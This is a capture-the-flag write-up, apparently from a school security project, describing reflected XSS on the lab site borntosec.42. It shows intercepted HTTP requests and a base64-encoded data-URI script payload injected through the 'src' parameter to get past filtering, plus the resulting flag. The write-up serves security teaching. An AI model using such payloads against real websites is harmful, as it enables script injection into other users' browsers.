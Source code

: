 # Reflected XSS
- a type of security vulnerability where an attacker can inject malicious scripts into content that is then served to other users
- when a user visits the affected web page, the malicious script is executed in their browser
- the malicious script is not stored on the server; instead, it is part of a request sent to the server and then reflected back to the user in the server's response
- https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting

<b>keywords</b>: XSS advanced<br>
<b>attacked site</b>: http://borntosec.42/?page=media&src=nsa

## Exploit
One of the images on the main page contains a hyperlink that leads to a different subsite:
``` html
http://borntosec.42/?page=media&src=nsa
```
When we intercept the GET request to this subsite using <code>Burp Suite</code>, we notice that the <code>&src=</code> parameter can be manipulated:
``` http
GET /?page=media&src=nsa HTTP/1.1
Host: 192.168.56.106
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Upgrade-Insecure-Requests: 1
```
We attempt to inject a JS payload into the URL:
``` http
GET /?page=media&src=data:text/html;<script>alert('XSS')</script> HTTP/1.1
Host: 192.168.56.106
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Upgrade-Insecure-Requests: 1
```
This approach does not work, so we try encoding the payload in base64 directly using <code>Burp Suite</code>:
``` http
GET /?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4= HTTP/1.1
Host: 192.168.56.106
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Upgrade-Insecure-Requests: 1
```
Accessing the URL with the encoded payload triggers the JS and reveals the flag:
```
The flag is : 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d
```

## Flag
928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d
